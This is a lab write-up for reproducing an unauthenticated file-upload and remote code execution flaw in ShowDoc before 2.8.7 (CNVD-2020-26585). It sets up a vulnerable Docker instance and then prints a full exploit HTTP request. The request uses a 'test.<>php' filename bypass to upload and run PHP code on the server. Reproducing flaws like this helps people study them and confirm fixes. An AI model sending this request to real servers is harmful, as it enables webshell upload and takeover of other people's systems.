


ShowDoc Unauthenticated File Upload and Remote Code Execution (CNVD-2020-26585)¶
ShowDoc is a tool greatly applicable for an IT team to share documents online. It can promote communication efficiency between members of a team.
ShowDoc version before 2.8.7, an unrestricted and unauthenticated file upload issue is found and attacker is able to upload a webshell and execute arbitrary code on server.
References:
- https://github.com/star7th/showdoc/pull/1059
- https://github.com/star7th/showdoc/commit/fb77dd4db88dc23f5e570fc95919ee882aca520a
- https://github.com/star7th/showdoc/commit/e1cd02a3f98bb227c0599e7fa6b803ab1097597f
Vulnerable environment¶
Execute following command to start a ShowDoc server 2.8.2:
docker compose up -d
After the server is started, browse http://your-ip:8080 to see the index page of ShowDoc.
Exploit¶
Simply send following request to upload a PHP file:
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0RdOKBR8AmAxfRyl
Content-Length: 213
------WebKitFormBoundary0RdOKBR8AmAxfRyl
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain
<?=phpinfo();?>
------WebKitFormBoundary0RdOKBR8AmAxfRyl--
PHP file address will be respond:

phpinfo() is executed successfully:
